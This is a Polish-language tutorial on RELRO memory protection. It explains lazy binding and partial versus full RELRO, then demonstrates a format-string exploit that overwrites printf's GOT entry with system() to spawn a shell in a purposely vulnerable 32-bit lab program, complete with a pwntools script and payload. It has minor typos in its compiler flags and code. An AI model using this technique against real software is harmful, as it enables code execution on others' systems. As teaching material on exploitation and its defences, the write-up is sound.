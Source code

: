 # RELRO

### 1. Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako sekcji tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielonej zostanie wywołana, GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker zostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest domyślnym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić całą tablicę GOT.

W gcc kompiluje się z full RERLO flagą `-z,relro,now`.

### 2. Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów.
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>f 
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyję exploitu typu `format string` który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić, jak daleko na stosie jest `buf`. Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument, niż najwyższy używam konstrukcji `%3$x`.

![img_1.png](img/img_1.png)

Bufor znajduje się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres `system` pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyświetlonych, pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem - liczba jest ogromna.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chcę zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanymi przez tag x.

Pod adres `0x0804c012` chcę zapisać wyższą część adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit włączony na kodzie z włączonym relro nie daje żadnego skutku - adres got znajduje się w innym miejscu. W przypadku próby nadpisania tego miejsca następuje `SIGSEGV` - wykonanie chciało nadpisać sekcje read-only. Kod tego exploitu znajduje się w `exploit1.py`.

![img_6.png](img/img_6.png)

### 3. Wnioski

RERLO jest dość prostym mechanizmem obrony przed exploitacją. Chroni przed pewnymi typami ataków i nie jest to opcja, której stosowanie ma sens w przypadku, np. wykonywalnego stosu i wyłączonego ASLR.

Full RERLO jest opcja dość kosztowną i nie powinno się używać jej do aplikacji, które wymagają szybkich czasów startu. Patrial RELRO może i powinno być stosowane defaultowo, bo jest bezproblemowe wydajnościowo, a podnosi bezpieczeństwo.



